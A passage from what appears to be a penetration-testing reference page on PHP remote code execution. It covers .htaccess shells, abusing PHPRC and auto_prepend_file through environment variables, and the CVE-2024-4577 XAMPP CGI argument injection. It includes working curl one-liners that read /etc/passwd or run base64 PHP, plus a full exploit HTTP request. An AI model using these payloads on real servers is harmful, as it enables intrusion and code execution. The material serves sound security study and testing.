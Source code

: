 ```
If you can **upload** a **.htaccess**, then you can **configure** several things and even execute code (configuring that files with extension .htaccess can be **executed**).

Different .htaccess shells can be found [[https://github.com/wireghoul/htshells|here]]

### RCE via Env Variables

If you find a vulnerability that allows you to **modify env variables in PHP** (and another one to upload files, although with more research maybe this can be bypassed), you could abuse this behaviour to get **RCE**.

- [**`LD_PRELOAD`**](../../../linux-hardening/privilege-escalation/index.html#ld_preload-and-ld_library_path): This env variable allows you load arbitrary libraries when executing other binaries (although in this case it might not work).
- **`PHPRC`** : Instructs PHP on **where to locate its configuration file**, usually called `php.ini`. If you can upload your own config file, then, use `PHPRC` to point PHP at it. Add an **`auto_prepend_file`** entry specifying a second uploaded file. This second file contains normal **PHP code, which is then executed** by the PHP runtime before any other code.
  1. Upload a PHP file containing our shellcode
  2. Upload a second file, containing an **`auto_prepend_file`** directive instructing the PHP preprocessor to execute the file we uploaded in step 1
  3. Set the `PHPRC` variable to the file we uploaded in step 2.
     - Get more info on how to execute this chain [[https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/|**from the original report**]].
- **PHPRC** - another option
  - If you **cannot upload files**, you could use in FreeBSD the "file" `/dev/fd/0` which contains the **`stdin`**, being the **body** of the request sent to the `stdin`:
    - `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`
  - Or to get RCE, enable **`allow_url_include`** and prepend a file with **base64 PHP code**:
    - `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'`
  - Technique [[https://vulncheck.com/blog/juniper-cve-2023-36845|**from this report**]].

### XAMPP CGI RCE - CVE-2024-4577

The webserver parses HTTP requests and passes them to a PHP script executing a request such as as [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar&ref=labs.watchtowr.com) as `php.exe cgi.php foo=bar`, which allows a parameter injection. This would allow to inject the following parameters to load the PHP code from the body:

```jsx
-d allow_url_include=1 -d auto_prepend_file=php://input
```
```
Moreover, it's possible to inject the "-" param using the 0xAD character due to later normalization of PHP. Check. the exploit example from [[https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/|**this post**]]:

```jsx
POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?>

```
```
## PHP Sanitization bypass & Brain Fuck
```